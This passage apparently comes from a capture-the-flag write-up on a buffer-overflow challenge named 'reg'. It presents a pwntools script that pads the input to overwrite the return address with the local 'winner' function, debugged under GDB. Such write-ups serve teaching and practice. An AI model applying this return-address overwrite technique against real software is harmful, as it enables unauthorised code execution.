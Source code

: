 And pwntools finds the symbol just fine:

![Terminal Screenshot](/assets/images/posts/pwn_reg/Image30.png)

### Building our exploit

Now the final step was to append our address to the attack buffer and check it all 
works in GDB. We can amend the pwntools we have so far (throwing away the code we 
used to find the offset for now) to do just that and pwntools even includes a 
method `p64()` to automate our 64 bit little-endian conversion (joy!):

```python
#!/usr/bin/env python3

from pwn import *
from time import sleep

context.log_level = "DEBUG"     # See more detailed interaction information
context.binary = ELF("./reg")   # Set the context binary to our target
context.update(arch="amd64", os="linux")    # More context

# Now spawn an instance of our process and interact with it
p = process("./reg")

# Configure GDB - start with a GDB script - breakpoint and start GEF
gdb_script = '''
    init-gef
    b *(run + 52)
    c
    '''
gdb.attach(p, gdb_script)       # Now attach to the reg process in gdb

# Build our previous buffer, using bytes objects because python3
winner = context.binary.symbols['winner']   # Find winner
log.info(f"Found winner : {hex(winner)}")   # Tell user where it is
attack_buf = b"A" * 0x30 + b"S" * 0x8       # Start of our attack buffer (up to RP)
attack_buf += p64(winner)                   # This autmoates our little-endian conversion

# Send this directly to the process
p.recvuntil(b":")       # We need to receive 'Enter your name:' before we send
p.sendline(attack_buf)    # Send our buffer over

# We still switch to interactive, to keep the process open and script running as long as possible.
p.interactive()
```